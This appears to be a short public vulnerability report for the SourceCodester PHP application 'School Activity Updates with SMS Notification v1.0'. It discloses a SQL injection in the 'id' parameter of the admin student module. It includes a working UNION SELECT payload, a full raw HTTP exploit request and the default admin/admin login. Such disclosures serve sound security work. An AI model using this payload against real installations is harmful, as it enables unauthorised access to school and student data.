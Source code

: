 # School Activity Updates with SMS Notification v1.0 by janobe has SQL injection

BUG_Author: salute

Login account: admin/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/13799/school-activity-updates-sms-notification-phppdo.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /activity/admin/modules/modstudent/index.php?view=view&id=

Vulnerability location: /activity/admin/modules/modstudent/index.php?view=view&id=, id

dbname =db_wvsu

[+] Payload: /activity/admin/modules/modstudent/index.php?view=view&id=-201806%27%20union%20select%201,2,database(),4,5,6,7,8,9,10,11,12,13--+ // Leak place ---> id

```sql
GET /activity/admin/modules/modstudent/index.php?view=view&id=-201806%27%20union%20select%201,2,database(),4,5,6,7,8,9,10,11,12,13--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=a58hbbkeelngug4ek0dssb0rb5
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183560238-ef7847e3-1408-4bba-9cbd-edc0f162772f.png)

